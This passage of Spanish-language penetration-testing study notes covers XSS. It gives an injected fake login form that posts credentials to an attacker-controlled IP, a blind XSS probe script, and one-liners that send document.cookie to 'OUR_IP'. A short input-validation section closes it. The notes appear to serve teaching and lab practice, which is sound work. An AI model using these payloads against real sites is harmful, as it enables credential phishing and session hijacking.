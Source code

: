 ```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Dónde pone OUR_IP sería la IP a la que queremos que lleguen los contenidos del login.
Todo ese código se tiene que poner dentro de un document.write():
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.16.166:80><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script> 


#### Session hijacking

Blind XSS

Las Blind XSS ocurren cuando una página es vulnerable a XSS y no podemos comprobarlo, esto nos lleva a dos preguntas, la página es realmente vulnerable y si lo es qué payload deberíamos utilizar para que funcione.

Primero de todo, para comprobar si es vulnerable o no podemos usar el siguiente payload:
```html
<script src="http://OUR_IP/username"></script>
```
Con el que recibiremos una petición a la IP que controlamos de forma inmediata. Si recibimos la petición, significará que el campo username es vulnerable.
Algunos parámetros comunes que es muy poco probable que sean vulnerables son el password, ya que normalmente están almacenados en forma de hash y los emails ya que el formato de email tiene que se correcto.
Para robar las cookies:
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

#### Prevention

##### Input validation

Establecer la entrada con una whitelist con los valores único que se pueden utilizar, por ejemplo esta función de javascript que permite solo direcciones de email válidas:
```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```
